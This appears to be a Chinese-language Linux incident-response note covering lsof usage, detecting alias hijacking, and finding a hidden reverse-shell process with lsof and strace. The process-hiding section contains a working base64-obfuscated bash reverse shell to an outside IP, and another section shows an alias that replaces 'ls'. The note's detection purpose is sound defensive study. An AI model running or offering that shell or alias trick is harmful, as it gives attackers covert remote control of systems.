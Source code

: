 <a name="FDJwY"></a>
### lsof (可看到调用的所有路径
1 lsof -i # 运行进程监听端口的细节信息<br />2 lsof -p [pid] # 显示进程使用的所有文件和端口<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639365295938-6158a0e5-6bc8-42c5-b9ea-f495ddff117d.png#clientId=ueefe6595-c1f3-4&from=paste&height=84&id=u5597ff16&originHeight=141&originWidth=894&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24686&status=done&style=none&taskId=u315b2518-d0e4-42bc-a534-ea16f869601&title=&width=535)<br />3 lsof -iTCP -P -n # 显示监听的tcp端口<br />4 lsof -R -p [pid] # 显示父进程ID,或者cat /proc/36995/status|grep PPid /ps -o ppid= -p 1111<br />5 lsof +L1 # select open files that have been unlinked

<a name="cC7g1"></a>
### 修改文件名
alias<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639464519893-a019ba96-cbed-4a74-be23-e7d8e3f52ad3.png#clientId=ub8921103-b99a-4&from=paste&height=284&id=ua4737ac7&originHeight=214&originWidth=220&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26553&status=done&style=none&taskId=u17dd64a1-8260-451e-b80e-c6824455f80&title=&width=292)

alias ls="whoami;ifconfig"<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639464540909-e85003cc-2164-4894-8479-87a9939f507e.png#clientId=ub8921103-b99a-4&from=paste&height=278&id=ufbabdaff&originHeight=434&originWidth=595&originalType=binary&ratio=1&rotation=0&showTitle=false&size=116155&status=done&style=none&taskId=u79e83f49-1319-4b4f-8b08-53aa3c311c9&title=&width=381.5)

删除创建的别名<br />用法：unalias 命令别名

<a name="jjqbJ"></a>
### 进程隐藏

echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjEuNC4yMzYuOTUvODg4OCAwPiYxCg=="|base64 --decode|bash -i<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639543045398-a4723e6d-ac37-4ede-85cd-a72b998cd611.png#clientId=u0cceb63d-6021-4&from=paste&height=93&id=u44825e22&originHeight=137&originWidth=791&originalType=binary&ratio=1&rotation=0&showTitle=false&size=33338&status=done&style=none&taskId=u911928d3-cb7e-47d8-8140-6a77ad135de&title=&width=535.5)

这个时候bash是没有ip端口内容的<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639543070033-3690c447-6ecb-4889-b806-0fde6b3dccf8.png#clientId=u0cceb63d-6021-4&from=paste&height=172&id=u5b663e54&originHeight=239&originWidth=771&originalType=binary&ratio=1&rotation=0&showTitle=false&size=94389&status=done&style=none&taskId=ub82c8fce-ca42-4f0b-bb21-10bee2fb3fe&title=&width=554.5)

排查：

排查需要lsof -p去指定进程id，看到外联行为<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639543141520-ea5a0e6d-5086-4c14-a9f2-79121f0ce51c.png#clientId=u0cceb63d-6021-4&from=paste&height=201&id=u6c999333&originHeight=350&originWidth=937&originalType=binary&ratio=1&rotation=0&showTitle=false&size=138059&status=done&style=none&taskId=uc26e3d1e-6cde-405d-9cd8-67e9cf18493&title=&width=537.5)

使用strace -p指定进程ip，可以获取攻击者输入的命令内容<br />内容全局搜索write(2, 就能获取到攻击者执行的命令<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639543319497-3bfeb453-b69e-4f84-b338-94f285b824f2.png#clientId=u0cceb63d-6021-4&from=paste&height=190&id=u68a724f9&originHeight=264&originWidth=615&originalType=binary&ratio=1&rotation=0&showTitle=false&size=33446&status=done&style=none&taskId=u5fb636c8-37d2-439e-8099-d6cc33800c1&title=&width=442.5)

![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639543333033-c8614715-39b7-4297-9e3f-bd0c6a324703.png#clientId=u0cceb63d-6021-4&from=paste&height=128&id=u47ada66b&originHeight=123&originWidth=424&originalType=binary&ratio=1&rotation=0&showTitle=false&size=11094&status=done&style=none&taskId=ub9417813-cec9-468a-ab29-a28b3794a2a&title=&width=441)
